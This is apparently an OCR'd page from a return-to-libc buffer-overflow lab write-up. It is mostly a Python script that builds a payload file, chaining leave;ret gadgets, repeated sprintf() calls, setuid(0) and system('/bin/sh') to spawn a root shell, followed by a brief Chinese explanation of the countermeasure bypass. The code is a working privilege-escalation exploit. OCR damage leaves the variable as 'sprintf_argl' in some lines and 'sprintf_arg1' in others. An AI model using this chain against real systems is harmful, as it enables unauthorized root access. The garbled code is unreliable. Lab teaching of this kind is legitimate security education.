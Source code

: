 ```python
sprintf_argl = ebp_bof + 12 + 5*0x20

# a byte that contains 0x00
sprintf_arg2 = sh_addr + len("/bin/sh")

# Use leaveret to return to the first sprintf()
ebp_next = ebp_bof + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

# sprintf(sprintf_argl, sprintf_arg2)
for i in range(4):
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(sprintf_addr)
    content += tobytes(leaveret)
    content += tobytes(sprintf_arg1)
    content += tobytes(sprintf_arg2)
    content += b'A' * (0x20 - 5*4)
    sprintf_argl += 1

# setuid(0)
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(setuid_addr)
content += tobytes(leaveret)
content += tobytes(0xFFFFFFFF)
content += b'A' * (0x20 - 4*4)

# system("/bin/sh")
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(system_addr)
content += tobytes(leaveret)
content += tobytes(sh_addr)
content += b'A' * (0x20 - 4*4)

# exit()
content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)

# Write the content to a file
with open("badfile", "wb") as f:
    f.write (content)
```

在上面的程序中，有以下几点：

- 先调用 `setuid(0)` ，然后再调用 `system("/bin/sh")`，以绕过 countermeasure
- 由于参数的 0 无法复制，所以我们调用四次 `sprintf()` 来生成 0
